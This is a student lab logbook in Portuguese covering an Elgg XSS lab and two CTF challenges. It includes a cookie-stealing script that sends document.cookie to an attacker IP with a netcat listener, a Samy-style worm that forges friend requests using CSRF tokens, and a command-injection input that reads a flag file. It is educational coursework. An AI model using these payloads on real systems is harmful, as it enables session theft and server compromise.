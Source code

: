 # LOGBOOK 10

### Lab Environment Setup

Completamos todos os pontos presentes no guião deste lab, isto é, DNS Setup, Container Setup and Commands, Elgg Web Application.

### Preparation

Neste lab vamos precisar de contruir HTTP requests. Para conseguirmos perceber como é um HTTP request em Elgg aceitável, vamos necessitar de poder capturar e analizar HTTP requests. Podemos utilizar uma extensão do Firefox chamada "HTTP Header Live". 
Tivemos que nos ambientar a esta ferramenta, para posteriomente avançar no guião.

## Task 1

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de forma que quando outro utilizador visualizar o perfil, o programa JavaScript seja executado e uma janela de alerta seja exibida.

O código JavaScript `<script>alert("XSS");</script>` exibe a janela de alerta. Os resultados estão no finala desta secção.

Com o seguinte código exemplo conseguimos referir um ficheiro .js para executar o código nele contido. Isto é útil para quando temos um programa Javascript de maior dimensão, ao contrário do exemplo anterior.
```
<script type="text/javascript"
        src="http://www.example.com/myscripts.js">
</script>
```

![](https://i.imgur.com/obINJpV.png)

![](https://i.imgur.com/LQACwXx.png)



## Task 2

O objetivo desta tarefa é incorporar um programa JavaScript no perfil Elgg, de modo que, quando outro utilizador visualizar o perfil, os cookies do utilizador sejam exibidos na janela de alerta.

Podemos atingir este objetivo introduzindo no campo "description" o seguinte código Javascript:
```
<script>alert(document.cookie);</script>
```

![](https://i.imgur.com/NDacdlJ.png)

![](https://i.imgur.com/5WBiQOO.png)

## Task 3

Na tarefa anterior, o código JavaScript malicioso escrito pelo invasor pode imprimir os cookies do utilizador, mas apenas o utilizador pode ver os cookies, não o invasor. Nesta tarefa, pretendemos que o código JavaScript envie os cookies para o invasor.

Para conseguirmos fazer isto precisamos que o programa Javascript envie um HTTP request para o atacante, com as cookies anexados.
Podemos usar uma tag img com o atributo src a apontar para a máquina do atacante. O browser vai tentar carregar a imagem, mas em vez disso vai fazer um pedido GET à máquna do invasor.

O seguinte código JavaScript envia os cookies para a porta 5555 da máquina do invasor (com endereço IP 10.9.0.1), onde o invasor possui um servidor TCP pronto a ouvir na mesma porta.
```
<script>
document.write("<img src=http://10.9.0.1:5555?c=" + escape(document.cookie) + " >");
</script>
```

![](https://i.imgur.com/w87IOAZ.png)

Um programa bastante utilizado por invasores é o netcat (ou nc) , que, se executado com a opção "-l", torna-se um servidor TCP que escuta uma conexão na porta especificada. Este programa de servidor basicamente imprime tudo o que é enviado pelo cliente e envia para o cliente tudo o que é digitado pelo utilizador executando o servidor. Com o comando `$ nc -lknv 5555` conseguimos escutar na porta 5555.

A opção -l é usada para especificar que o nc deve escutar uma conexão de entrada em vez de iniciar uma conexão com um host remoto. A opção -nv é usada para que o nc forneça uma saída mais detalhada. A opção -k significa que quando uma conexão for concluída, deve ouvir outra.

Utilizamos o comando netcat que referimos em cima para ouvir todos os request feitos por utilizadores que visitaram o nosso perfil. Esses requests contêm os cookies do utilizador, como pode ser visto em baixo:

![](https://i.imgur.com/qWdb0cf.png)


## Task 4

Nesta e na próxima tarefa, pretendemos realizar um ataque semelhante ao que Samy Worm fez ao MySpace em 2005. O objetivo é escrever um worm XSS que adiciona Samy como amigo a qualquer outro utilizador que visite a página de Samy.

Podemos adicionar Samy como amigo normalmente e, com a extensão HTTP Header Live, podemos descobrir como um HTTP request de amigo é codificado.

![](https://i.imgur.com/Mu1WEtN.png)

Utilizando esta informação, podemos criar um script que, ao ser executado, forja uma solicitação que adiciona Samy como amigo ao utilizador autenticado.

```
<script type="text/javascript">
  window.onload = function () {
    var Ajax=null;
    
    var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          ➀
    var token="&__elgg_token="+elgg.security.token.__elgg_token; ➁
    
    //Construct the HTTP request to add Samy as a friend.
    var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
    
    //Create and send Ajax request to add friend
    Ajax=new XMLHttpRequest();
    Ajax.open("GET", sendurl, true);
    Ajax.send();
  }
</script>
```

Colocamos este script no campo "About me" para ser executado por um utilizador quando este entrar no nosso perfil.

![](https://i.imgur.com/G0dju90.png)

![](https://i.imgur.com/28hoQiI.png)

Antes de visitar o perfil do Samy:

![](https://i.imgur.com/qoYQlQW.png)

Depois de visitar o perfil do Samy:

![](https://i.imgur.com/4VcqtK0.png)


#### Question 1 - Explain the purpose of Lines ➀ and ➁, why are they needed?

As linhas ➀ e ➁, marcadas no script da secção 4, servem para enviar o token elgg no request forjado para que o servidor avalie o request como um request válido do utilizador. Estes tokens servem para prevenir Cross Site Request Forgery.

#### Question 2 - If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

Um ataque bem-sucedido não pode ser iniciado, pois o modo Editor filtra os caracteres especiais HTML e não podemos editar o conteúdo HTML interno do campo. Portanto, injetar qualquer script no campo "About me" não é possível, pois não podemos enviar a tag < script > no perfil.

## CTFs

### Desafio 1

Depois de analisar o formulário, apercebemo-nos que este é vulnerável a XSS. Portanto, para obter a flag, inserimos no formulário um script que faz com que o botão "Give the flag" que estava desativado seja acionado e, assim, o administrador responde ao pedido e a flag aparece.

![](https://i.imgur.com/D3z5syb.png)

![](https://i.imgur.com/woPZvSW.png)

![](https://i.imgur.com/iOP5gSy.png)

### Desafio 2

Ao analisar o servidor web, conseguimos identificar que o comando ping está a ser implementado pelo servidor.

``` ping [options] hostname or IP address ```

O ping é um utilitário linux que pode ser usado para verificar se uma rede está presente e se um host pode ser acessado.

Como podemos ver na imagem seguinte, o comando ping é executado no endereço IP inserido (127.0.0.1).

![](https://i.imgur.com/R3XKlos.png)

 Caso se insiram argumentos inválidos, o ping não é executado e o site não produz resposta.

![](https://i.imgur.com/btiUYtY.png)

Quando injetamos o código, este é o código que na realidade é executado:

``` ping 127.0.0.1; cat /flags/flag.txt ```

Ou seja, estão a ser executados dois comandos diferentes da shell. O segundo comando imprime a flag.

![](https://i.imgur.com/QZANr3J.png)

![](https://i.imgur.com/Ygwjiz0.png)

